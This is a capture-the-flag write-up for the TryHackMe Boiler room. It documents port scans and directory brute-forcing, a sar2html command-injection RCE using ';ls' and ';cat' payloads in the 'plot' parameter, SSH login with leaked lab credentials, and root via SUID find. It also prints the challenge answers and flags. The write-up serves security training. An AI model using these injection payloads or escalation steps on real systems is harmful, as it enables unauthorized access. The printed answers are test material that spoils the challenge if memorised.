**Room Link:** https://tryhackme.com/room/boilerctf2

# Introduction

Welcome to my writeup for **Boiler CTF**. This is an intermediate-level room that focuses heavily on enumeration. The room description warns us: "Just enumerate, you'll get there." This implies we will face multiple services, potential rabbit holes, and the need to be thorough with our scans.

Our goal is to find the user flags, exploit the machine, and escalate privileges to root.

# Initial Enumeration

## Port Scanning

I began with a full TCP port scan to identify all running services, specifically looking for high-numbered ports as hinted by the room tasks.

```bash
nmap -sV -sC -T4 10.66.153.164 -oN nmap_scan
```

Scan Output:

```text
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.132.71
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.930
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
|_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

The scan revealed 4 ports:

1.**Port 21 (FTP)**: Running vsftpd 3.0.3 with Anonymous login enabled.

2. **Port 80 (HTTP)**: Running Apache.

3. **Port 10000 (HTTP)**: Running Webmin (MiniServ 1.930).

4. **Port 55007**: Running SSH.

# Task 1: Enumeration & Questions

## FTP Investigation

Since anonymous login was allowed, I connected to the FTP server to see if any sensitive files were exposed.

```bash
ftp -a 10.66.153.164

```
Session Log:

```plaintext
Connected to 10.66.153.164.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -alps
229 Entering Extended Passive Mode (|||43621|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
```
I found a hidden file named **.info.txt** and we found our first answer.

>[!NOTE]
> Use `get .info.txt` to download this file on your machine.

> **Answer1**
>
>> File extension after anon login
>
>> `txt`

## Analyzing the Hidden File

After downloading the file on my machine I inspected its content.

```bash
cat .info.txt
# Output: Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```


This appeared to be a rotation cipher. Using ROT13, I decoded the message:


This file was a rabbit hole, but it reinforced the room's theme: we need to dig deeper.

The nmap scan gives us a hidden SSH service running on a very high port **55007**.

> **Answer 2**
>
>> What is on the highest port?
>
>> `SSH`

And looking at port **10000** we can find that is running **Webmin**.

> **Answer 3**
>
>> What's running on port 10000?
>
>> `Webmin`

## Service Exploitation Check

I checked the service on port 10000 (Webmin 1.930). While earlier versions had critical unauthenticated vulnerabilities, this specific version usually requires credentials to exploit. Without a valid login, it is not immediately exploitable.

>> **Answer 4**
>
>> Can you exploit the service running on that port? (yay/nay answer)
>
>> `Nay`

## CMS Discovery

I ran a directory brute-force scan to find hidden web applications using `gobuster`.



I identified a Joomla installation running on the server.

> **Answer 5**
>
>> What's CMS can you access?
>
>> `Joomla`

Let’s start enumerating the robots.txt first. These files generally contain valuable information.



But, this time instead of valuable information. There was only rabbit holes. But I noticed the string given at the last in robots.txt it probably contains something:

```hex
079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075

```

### Decoding
I decided to decode the ASCII decimal values found in `robots.txt` to see if they hid a credential or a directory.

**1. Decimal to ASCII**
Converting the decimal values (`079 084...`) to text resulted in a Base64-like string:
`OTliMDY2MGNkOTVhZGZlMzczMzU0MTgyYmFhNTE1ODQK`

**2. Base64 Decoding**
Decoding that string revealed what looked like a hash:
`99b0660cd95adfe373354182baa51584`



**3. Cracking the Hash**
I identified this as an **MD5** hash. Running it through an online cracker (like CrackStation or hashes.com) revealed the plaintext:
`kidding`



This confirmed that `robots.txt` was a rabbit hole intended to waste time.

## Deep Joomla Enumeration
Since the standard web root didn't yield results, I focused my enumeration on the `/joomla` directory itself to find the "interesting file" mentioned in the tasks.

```bash

gobuster dir -u http://10.67.140.32/joomla/ -w /usr/share/wordlists/dirb/common.txt


===============================================================
Starting gobuster in directory enumeration mode
===============================================================
 (Status: 200) [Size: 12457]
.htaccess            (Status: 403) [Size: 303]
.htpasswd            (Status: 403) [Size: 303]
.hta                 (Status: 403) [Size: 298]
_archive             (Status: 301) [Size: 322] [--> http://10.67.140.32/joomla/_archive/]
_database            (Status: 301) [Size: 323] [--> http://10.67.140.32/joomla/_database/]
_files               (Status: 301) [Size: 320] [--> http://10.67.140.32/joomla/_files/]
_test                (Status: 301) [Size: 319] [--> http://10.67.140.32/joomla/_test/]
~www                 (Status: 301) [Size: 318] [--> http://10.67.140.32/joomla/~www/]
administrator        (Status: 301) [Size: 327] [--> http://10.67.140.32/joomla/administrator/]
bin                  (Status: 301) [Size: 317] [--> http://10.67.140.32/joomla/bin/]
build                (Status: 301) [Size: 319] [--> http://10.67.140.32/joomla/build/]
cache                (Status: 301) [Size: 319] [--> http://10.67.140.32/joomla/cache/]
components           (Status: 301) [Size: 324] [--> http://10.67.140.32/joomla/components/]
images               (Status: 301) [Size: 320] [--> http://10.67.140.32/joomla/images/]
includes             (Status: 301) [Size: 322] [--> http://10.67.140.32/joomla/includes/]
index.php            (Status: 200) [Size: 12478]
installation         (Status: 301) [Size: 326] [--> http://10.67.140.32/joomla/installation/]
language             (Status: 301) [Size: 322] [--> http://10.67.140.32/joomla/language/]
layouts              (Status: 301) [Size: 321] [--> http://10.67.140.32/joomla/layouts/]
libraries            (Status: 301) [Size: 323] [--> http://10.67.140.32/joomla/libraries/]
media                (Status: 301) [Size: 319] [--> http://10.67.140.32/joomla/media/]
modules              (Status: 301) [Size: 321] [--> http://10.67.140.32/joomla/modules/]
plugins              (Status: 301) [Size: 321] [--> http://10.67.140.32/joomla/plugins/]
templates            (Status: 301) [Size: 323] [--> http://10.67.140.32/joomla/templates/]
tests                (Status: 301) [Size: 319] [--> http://10.67.140.32/joomla/tests/]
tmp                  (Status: 301) [Size: 317] [--> http://10.67.140.32/joomla/tmp/]
Progress: 4616 / 4616 (100.00%)
===============================================================
Finished
===============================================================

```

## Analyzing the Findings

Among the discovered directories, **`/_test`** stood out as non-standard. I navigated to `http://10.67.140.32/joomla/_test/` and found a web interface for a tool called **sar2html**.



## Vulnerability Identification

I searched for known vulnerabilities associated with "sar2html" and found a high-severity **Remote Code Execution (RCE)** exploit on Exploit-DB [ID: 47204].

The vulnerability exists because the application fails to sanitize user input in the `plot` parameter. By injecting system commands after a semicolon (`;`), we can execute arbitrary code on the underlying server.

## Exploitation: Sar2HTML RCE

To confirm the vulnerability and explore the file system, I crafted a payload to list the contents of the current directory.

**Payload:**
```text
http://10.67.140.32/joomla/_test/index.php?plot=;ls -la
```
I executed this URL in the browser. The output of the command was rendered inside the "Select Host" dropdown menu on the page.



The output revealed a file named log.txt.

> **Answer 6**
>
>> The interesting file name in the folder?
>
>> `log.txt`


## Retrieving Secrets
Now that I knew the target file name, I modified the payload to read its contents using `cat`.

**Payload:**

```text
http://10.67.140.32/joomla/_test/index.php?plot=;cat log.txt
```
Result: The content of the log file appeared in the dropdown menu.

Analyzing the log entries, I found a successful login event that revealed a username and password:

**ssh2 #pass: superduperp@$$ Accepted password for basterd**




# Task 2: Exploitation & Privilege Escalation

# SSH Access

Armed with these credentials, I logged into the server using the high port identified earlier.

```bash 
ssh basterd@10.67.140.32 -p 55007

```
## Internal Enumeration
After verifying my access, I listed the files in the current user's home directory.

I noticed a script named backup.sh.



I examined the contents of the script to see if it contained any sensitive information.

```bash
cat backup.sh
```

Script Content:

```shell
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log

DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "####################" >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi
    done


else

    echo "Directory is not present" >> $LOG
    exit 0
fi
```
The script contained a comment with what appeared to be a password for the user stoner.

```bash
[...]
USER=stoner
#superduperp@$$no1knows
[...]
```
>> **Answer 1**
>
>> Where was the other users pass stored(no extension, just the name)?
>
>> `backup`

## Lateral Movement
Using the password discovered in the backup script (`superduperp@$$no1knows`), I switched to the user `stoner`.

```bash
su stoner
# Password: superduperp@$$no1knows
```
## Enumerating Stoner's Directory

I listed the files in the new user's home directory to look for the flag.

I found a hidden file named .secret



> [!NOTE]
> Always remember to check for `hidden files`.

**Output:**

	"You made it till here, well done."

At first, I thought this was a rabbit hole or a troll message. However, after failing to find a `user.txt` anywhere else, I realized **this string IS the flag.** The room was playing games with us :)

> **Answer 2**
>
>> user.txt
>
>> `You made it till here, well done.`

# Privilege Escalation (Root)

## Sudo Enumeration
I first checked for `sudo` privileges to see if I could run any commands as root.

```bash
sudo -l
```
**Output:**

	(root) NOPASSWD: /NotThisTime/MessinWithYa

This was clearly another troll by the creator.

## SUID Enumeration

Next, I searched for binaries with the SUID bit set, which allows a user to execute the file with the permissions of its owner (root).

```bash
find / -perm /4000 2>/dev/null
```


I noticed **/usr/bin/find** in the list. This is a well-known privilege escalation vector (GTFOBins) because find has an *-exec* flag that can run system commands.

> **Answer 3**
>
>> What did you exploit to get the privileged user?
>
>> `find`

## Capturing the Root Flag

Since find runs as root, I used it to execute **ls** and **cat** on the **/root** directory, bypassing the permission restrictions.



> **Answer 4**
> 
>> root.txt
>
>> `It wasn't that hard, was it?`

# Conclusion

Boiler is a masterclass in trolling, but it taught me a valuable lesson: **Enumeration > Everything.** We didn't just find the root flag; we earned it.

1. We dug deeper: Finding the hidden SSH port on 55007 when standard scans failed.

2. We enumerated harder: uncovering the Sar2HTML vulnerability buried in a subdirectory.

3. We escalated smarter: Ignoring the trolls and abusing a classic SUID binary to snatch root.

**System Pwned. 🚩**

**If you dug this write-up, follow along—I've got plenty more boxes to break :)**


